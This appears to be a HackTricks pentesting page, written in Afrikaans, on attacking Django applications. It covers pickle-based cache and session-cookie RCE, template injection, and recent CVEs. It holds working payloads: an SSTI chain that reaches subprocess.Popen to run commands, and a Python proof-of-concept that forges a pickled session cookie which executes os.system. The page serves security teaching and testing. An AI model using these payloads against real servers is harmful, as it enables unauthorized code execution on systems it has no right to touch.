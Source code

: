 # Django

{{#include /banners/hacktricks-training.md}}

## Cache Manipulation to RCE
Django se standaard cache stoor metode is [Python pickles](https://docs.python.org/3/library/pickle.html), wat kan lei tot RCE as [onbetroubare invoer onpickled word](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf). **As 'n aanvaller skrywe toegang tot die cache kan verkry, kan hulle hierdie kwesbaarheid tot RCE op die onderliggende bediener opgradeer**.

Django cache word in een van vier plekke gestoor: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [geheue](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [lêers](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16), of 'n [databasis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). Cache wat in 'n Redis bediener of databasis gestoor is, is die mees waarskynlike aanvalsvectors (Redis-inspuiting en SQL-inspuiting), maar 'n aanvaller mag ook in staat wees om lêer-gebaseerde cache te gebruik om 'n arbitrêre skrywe in RCE te omskep. Onderhouers het dit as 'n nie-kwessie gemerk. Dit is belangrik om te noem dat die cache lêer gids, SQL tabelnaam, en Redis bediener besonderhede sal verskil op grond van implementering.

Hierdie HackerOne verslag bied 'n uitstekende, herhaalbare voorbeeld van die ontginning van Django cache wat in 'n SQLite databasis gestoor is: https://hackerone.com/reports/1415436

---

## Server-Side Template Injection (SSTI)
Die Django Template Taal (DTL) is **Turing-voltooi**. As gebruiker-gelewer data as 'n *template string* gerender word (byvoorbeeld deur `Template(user_input).render()` aan te roep of wanneer `|safe`/`format_html()` outo-escaping verwyder), kan 'n aanvaller volle SSTI → RCE bereik.

### Detection
1. Soek vir dinamiese oproepe na `Template()` / `Engine.from_string()` / `render_to_string()` wat *enige* ongesuiwerde versoekdata insluit.
2. Stuur 'n tyd-gebaseerde of aritmetiese payload:
```django
{{7*7}}
```
As die gerenderde uitvoer `49` bevat, word die invoer deur die template engine gecompileer.

### Primitive to RCE
Django blokkeer direkte toegang tot `__import__`, maar die Python objek grafiek is bereikbaar:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
Vind die indeks van `subprocess.Popen` (≈400–500 afhangende van die Python-bou) en voer arbitrêre opdragte uit:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
'n Veiliger universele gadget is om te herhaal totdat `cls.__name__ == 'Popen'`.

Dieselfde gadget werk vir **Debug Toolbar** of **Django-CMS** sjabloon weergawe funksies wat gebruikersinvoer verkeerd hanteer.

---

## Pickle-Backed Session Cookie RCE
As die instelling `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` geaktiveer is (of 'n pasgemaakte serializer wat pickle deserialiseer), dekripteer en unpickles Django die sessie koekie **voor** enige view kode aangeroep word. Daarom is dit genoeg om 'n geldige ondertekeningssleutel (die projek `SECRET_KEY` per standaard) te besit vir onmiddellike afstands kode uitvoering.

### Exploit Vereistes
* Die bediener gebruik `PickleSerializer`.
* Die aanvaller weet / kan raai `settings.SECRET_KEY` (lekke via GitHub, `.env`, fout bladsye, ens.).

### Bewys-van-Konsep
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
Stuur die resulterende koekie, en die payload loop met die toestemmings van die WSGI-werker.

**Mitigations**: Hou die standaard `JSONSerializer`, draai `SECRET_KEY` om, en konfigureer `SESSION_COOKIE_HTTPONLY`.

---

## Onlangs (2023-2025) Hoë-Impakte Django CVEs Pentesters Moet Nagaan
* **CVE-2025-48432** – *Log-inspuiting via ongeëscape `request.path`* (opgelos 4 Junie 2025). Laat aanvallers toe om nuwe reëls/ANSI-kodes in loglêers te smokkel en afgeleide loganalise te vergiftig. Patches vlak ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *Kritieke SQL-inspuiting* in `QuerySet.values()/values_list()` op `JSONField` (CVSS 9.8). Skep JSON sleutels om uit aanhalingstekens te breek en arbitrêre SQL uit te voer. Opgelos in 4.2.15 / 5.0.8.

Fingerprint altyd die presiese raamwerk weergawe via die `X-Frame-Options` foutblad of `/static/admin/css/base.css` hash en toets die bogenoemde waar van toepassing.

---

## Verwysings
* Django sekuriteitsvrystelling – "Django 5.2.2, 5.1.10, 4.2.22 adresseer CVE-2025-48432" – 4 Junie 2025.
* OP-Innovate: "Django vrystellings sekuriteitsopdaterings om SQL-inspuitingsfout CVE-2024-42005 aan te spreek" – 11 Augustus 2024.

{{#include /banners/hacktricks-training.md}}
